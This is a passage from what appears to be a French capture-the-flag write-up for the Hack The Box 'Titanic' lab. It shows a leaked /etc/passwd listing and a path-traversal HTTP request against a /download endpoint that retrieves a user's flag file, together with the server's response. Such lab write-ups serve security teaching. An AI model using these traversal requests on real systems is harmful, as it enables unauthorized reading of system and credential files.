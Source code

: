 ```bash
Last-Modified: Fri, 07 Feb 2025 11:16:19 GMT
Cache-Control: no-cache
ETag: "1738926979.4294043-1951-2222001821"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
Grâce à /etc/passwd on repère l'utilisateur "developer". On peut récupérer le fichier user.txt avec le flag.
```bash
GET /download?ticket=../../../../../../../../home/developer/user.txt HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------------------------
HTTP/1.1 200 OK
Date: Wed, 19 Feb 2025 12:48:04 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="../../../../../../../../home/developer/user.txt"
Content-Type: text/plain; charset=utf-8
```